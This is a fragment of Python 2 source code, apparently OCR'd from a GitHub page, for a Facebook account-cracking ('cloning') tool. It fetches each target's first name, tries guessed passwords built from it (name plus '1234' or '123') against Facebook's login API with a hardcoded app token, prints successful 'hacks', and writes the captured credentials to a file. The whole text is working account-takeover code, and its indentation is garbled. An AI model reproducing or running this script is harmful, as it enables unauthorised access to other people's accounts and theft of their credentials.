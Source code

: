	print "\033[1;36;40m[✺] Total IDs : \033[1;94m"+str(len(id))
	jalan('\033[1;34;40m[✺] Please Wait...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;32;40m[✺] Cloning\033[1;93m"+o),;sys.stdout.flush();time.sleep(1)
	print "\n\033[1;94m        ❈     \x1b[1;91mTo Stop Process Press CTRL+Z \033[1;94m    ❈"
	print "   \033[1;92m●══════════════════◄►══════════════════●"

	jalan('           \033[1;91mAahil start cloning Wait...')
	print  "  \033[1;92m ●══════════════════◄►══════════════════●" 

	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass #Dev:rana
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)												
			b = json.loads(a.text)												
			pass1 = b['first_name'] + '1234'												
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			q = json.load(data)												
			if 'access_token' in q:
				x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				z = json.loads(x.text)
				print '\x1b[1;94m[  ✓  ] \x1b[1;92mHack100%💉'											
				print '\x1b[1;94m[•⚔•] \x1b[1;91mName \x1b[1;91m    ✯ \x1b[1;92m' + b['name']											
				print '\x1b[1;94m[•⚔•] \x1b[1;91mID \x1b[1;91m      ✯ \x1b[1;92m' + user											
				print '\x1b[1;94m[•⚔•] \x1b[1;91mPassword \x1b[1;91m✯ \x1b[1;92m' + pass1 + '\n'											
				oks.append(user+pass1)
                        else:
			        if 'www.facebook.com' in q["error_msg"]:
				    print '\x1b[1;94m[ ❥ ] \x1b[1;94mCheckpoint'
				    print '\x1b[1;94m[•⚔•] \x1b[1;94mName \x1b[1;94m    ✯ \x1b[1;95m' + b ['name']
				    print '\x1b[1;94m[•⚔•] \x1b[1;94mID \x1b[1;94m      ✯ \x1b[1;95m' + user
				    print '\x1b[1;94m[•⚔•] \x1b[1;94mPassword \x1b[1;94m✯ \x1b[1;95m' + pass1 + '\n'
				    cek = open("out/super_cp.txt", "a")
				    cek.write("ID:" +user+ " Pw:" +pass1+"\n")
				    cek.close()
				    cekpoint.append(user+pass1)
                                else:
				    pass2 = b['first_name'] + '123'										
                                    data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			            q = json.load(data)												
			            if 'access_token' in q:	
				            x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				            z = json.loads(x.text)
				            print '\x1b[1;94m[  ✓  ] \x1b[1;92mHack100%💉'											
				            print '\x1b[1;94m[•⚔•] \x1b[1;91mName \x1b[1;91m    ✯ \x1b[1;92m' + b['name']											
				            print '\x1b[1;94m[•⚔•] \x1b[1;91mID \x1b[1;91m      ✯ \x1b[1;92m' + user								
				            print '\x1b[1;94m[•⚔•] \x1b[1;91mPassword \x1b[1;91m✯ \x1b[1;92m' + pass2 + '\n'											
				            oks.append(user+pass2)
                                    else:
			                   if 'www.facebook.com' in q["error_msg"]:
				               print '\x1b[1;94m[ ❥ ] \x1b[1;94mCheckpoint'
				               print '\x1b[1;94m[•⚔•] \x1b[1;94mName \x1b[1;94m    ✯ \x1b[1;95m' + b['name']
				               print '\x1b[1;94m[•⚔•] \x1b[1;94mID \x1b[1;94m      ✯ \x1b[1;95m' + user
				               print '\x1b[1;94m[•⚔•] \x1b[1;94mPassword \x1b[1;94m✯ \x1b[1;95m' + pass2 + '\n'